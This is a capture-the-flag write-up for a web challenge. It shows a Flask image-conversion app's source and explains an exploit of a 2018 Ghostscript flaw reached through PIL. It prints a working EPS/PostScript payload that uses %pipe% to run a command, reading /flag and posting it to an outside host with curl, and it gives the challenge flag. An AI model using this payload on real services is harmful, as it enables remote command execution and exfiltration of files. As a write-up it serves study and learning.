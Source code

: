 # Slack emoji converter (web, 267p, 29 solved)

```
create your own emoji for Slack at http://emoji.chal.ctf.westerns.tokyo
```

This task is a perfect example of CTF challenge naming conventions - because the challenge has absolutely zero relation to slack, emojis, and conversions.

We are expected to exploit website http://emoji.chal.ctf.westerns.tokyo/.

The first challenge was to figure out how to drag&drop files from my heavily modified linux installation with i3wm and progressively more completely corrupted APT database. To be hones, I just took the easy way out and used Windows VM.

Anyway the real challenge was to read the source code and find vulnerability:

```python
from flask import (
    Flask,
    render_template,
    request,
    redirect,
    url_for,
    make_response,
)
from PIL import Image
import tempfile
import os


app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/source')
def source():
    return open(__file__).read()

@app.route('/conv', methods=['POST'])
def conv():
    f = request.files.get('image', None)
    if not f:
        return redirect(url_for('index'))
    ext = f.filename.split('.')[-1]
    fname = tempfile.mktemp("emoji")
    fname = "{}.{}".format(fname, ext)
    f.save(fname)
    img = Image.open(fname)
    w, h = img.size
    r = 128/max(w, h)
    newimg = img.resize((int(w*r), int(h*r)))
    newimg.save(fname)
    response = make_response()
    response.data = open(fname, "rb").read()
    response.headers['Content-Disposition'] = 'attachment; filename=emoji_{}'.format(f.filename)
    os.unlink(fname)
    return response
```

See it yet? No? Probably because there's none. This means that there is 90% chance that ghostscript guys screwed up something again and whole internet is on fire.
So we quickly googled something equivalent to `how do I pwn ghostscript in 2018` and found [this gem](http://openwall.com/lists/oss-security/2018/08/21/2): http://openwall.com/lists/oss-security/2018/08/21/2. This looked really interesting (announcement was from only few days ago!), so I decided to give it a try.

Of course not a single exploit worked on my broken good-for-nothing machine, so I almost lost hope at that moment. We almost spent 3 more hours searching for a different solution. Fortunately, I decided to craft one more exploit and send it to remote server as a last resort (via my Windows VM, of course). And you guessed it, it worked. Interesting fragment:

```
a5
1 .pushpdf14devicefilter
save
legal
restore
mark /OutputFile (%pipe%cat /flag | curl tailcall.net:3333 -X POST -d @/dev/stdin) currentdevice putdeviceprops
showpage
```

Whole exploit file [circle.eps](circle.eps).

`TWCTF{watch_0ut_gh0stscr1pt_everywhere}`